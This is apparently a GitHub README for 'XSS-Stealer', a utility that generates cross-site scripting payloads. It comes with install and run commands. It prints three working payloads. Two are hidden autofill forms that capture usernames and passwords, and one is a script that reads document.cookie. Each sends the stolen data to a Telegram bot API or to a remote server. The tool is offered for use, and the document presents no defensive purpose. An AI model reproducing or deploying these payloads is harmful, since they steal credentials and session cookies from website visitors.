



# XSS-Stealer

Simple utility to generate XSS-based stealers.

## Usage

```shell
pip install -r requirements.txt
```

```shell
python -m stealer
```

## Examples

### Passwords-Telegram

Steals the password using form autofill and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored


<p align="center">

</p>


**Result code:**

```js
<form style="display: none" onchange="fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${this.u.value};${this.p.value}&chat_id=123123123`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```


### Cookies-Telegram

Steals the cookies and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored

<p align="center">

</p>


**Result code:**

```js
<script>fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${document.cookie}&chat_id=123123123`)</script>
```


### Passwords-Server

Steals the password using form autofill and sends it to the Server.

**XSS-Types:**

- Reflected
- Stored

<p align="center">

</p>


```js
<form style="display: none" onchange="fetch(`https://example.com?c=${this.u.value};${this.p.value}`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

## Licence

XSS-Stealer is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.